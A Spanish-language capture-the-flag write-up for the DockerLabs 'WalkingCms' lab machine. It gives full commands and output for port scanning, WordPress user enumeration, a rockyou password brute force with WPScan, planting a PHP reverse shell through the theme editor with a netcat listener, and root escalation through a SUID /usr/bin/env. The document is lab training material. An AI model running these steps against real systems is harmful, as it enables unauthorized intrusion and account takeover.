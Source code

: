 ```yaml
---
title: WalkingCms Writeup - DockerLabs
date: 2024-08-09
categories: [WriteUps, DockerLabs]
tags: [Linux, Easy, DockerLabs]
img_path: /assets/img/dck/walking_cms/
image: /assets/img/dck/walking_cms/walking_cms.png
---
```


Explotamos una vulnerabilidad en WordPress para cargar una Reverse Shell a través del editor de temas. Con esta shell, obtuvimos acceso a la máquina objetivo. Luego, buscamos binarios SUID y utilizamos `/usr/bin/env` para escalar privilegios, obteniendo acceso root.

## Reconocimiento
---
Realizamos un escaneo de puertos en la máquina objetivo utilizando `nmap` para identificar los servicios activos.

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
_______________________________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
---
Se identificó el puerto **80 (HTTP)** como abierto. A continuación, ejecutamos un escaneo más detallado para obtener información sobre los servicios y sus versiones.

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
_______________________________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```
## Enumeración
---
El servicio HTTP está ejecutando Apache, y no se detectan otras aplicaciones relevantes en el escaneo inicial. Procedemos a realizar un fuzzing de directorios y archivos usando `Gobuster`.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,txt,sh
_______________________________________________________________________
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312]
/server-status        (Status: 403) [Size: 275]
```
---
`Gobuster` revela el directorio `/wordpress`, que exploramos sin encontrar información destacable al principio.

![walking_cms-1](/assets/img/dck/walking_cms/walking_cms-1.png)

---
Dado que el sitio está basado en WordPress, utilizamos `WPScan` para enumerar usuarios y plugins.

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp 
_______________________________________________________________________
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
## Explotación
---
`WPScan` identifica el usuario **mario**, y utilizamos la misma herramienta para realizar un ataque de fuerza bruta con el diccionario `rockyou.txt`.

```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________________
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love
Trying mario / badboy Time: 00:00:04 <

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
---
Obtenemos la contraseña del usuario **mario**. Para acceder al panel de administración de WordPress, realizamos otro escaneo con `Gobuster` para encontrar el archivo de login.

```bash
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
_______________________________________________________________________
/wp-content           (Status: 301) [Size: 323]
/wp-login.php         (Status: 200) [Size: 6580]
/wp-includes          (Status: 301) [Size: 324]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0]
```
---
Accedemos a la página de login en `/wordpress/wp-login.php` e iniciamos sesión con las credenciales obtenidas.

![walking_cms-2](/assets/img/dck/walking_cms/walking_cms-2.png)

---
Con acceso al panel de administración de WordPress, modificamos el archivo `index.php` a través del Theme Editor para insertar una Reverse Shell en PHP.

![walking_cms-3](/assets/img/dck/walking_cms/walking_cms-3.png)

---
Reemplazamos todo lo que aparece, por una Reverse Shell en PHP proporcionada por [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), especificando nuestra IP de atacante y el puerto. Luego damos a Update File.

![walking_cms-4](/assets/img/dck/walking_cms/walking_cms-4.png)

---
Configuramos `netcat` para escuchar en el puerto 443, que fue el especificado en la Reverse Shell.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Accedemos al archivo modificado en el navegador para recibir la Reverse Shell.

```css
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```
---
Conseguimos acceso a la máquina objetivo.

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 45834
Linux 48e833747d49 6.8.11-amd64
 05:36:34 up  1:51,  0 user,  load average: 0.93, 0.63, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
_______________________________________________________________________
www-data@48e833747d49:/$
```
---
Procedemos a realizar un tratamiento de la TTY para una mejor experiencia en la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 41 columns 183
```
## Escalada de Privilegios
---
Para escalar privilegios, buscamos binarios con permisos SUID.

```bash
www-data@48e833747d49:/$ find / -perm -4000 2>/dev/null | xargs ls -l
_______________________________________________________________________
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59704 Mar 23  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 72000 Mar 23  2023 /usr/bin/su
-rwsr-xr-x 1 root root 35128 Mar 23  2023 /usr/bin/umount
```
---
El binario `/usr/bin/env` tiene permisos SUID. Usando [GTFOBins](https://gtfobins.github.io/gtfobins/env/), ejecutamos este binario para obtener una shell con privilegios de root.

```bash
www-data@48e833747d49:/$ ./usr/bin/env /bin/bash -p
bash-5.2# whoami
_______________________________________________________________________
root
```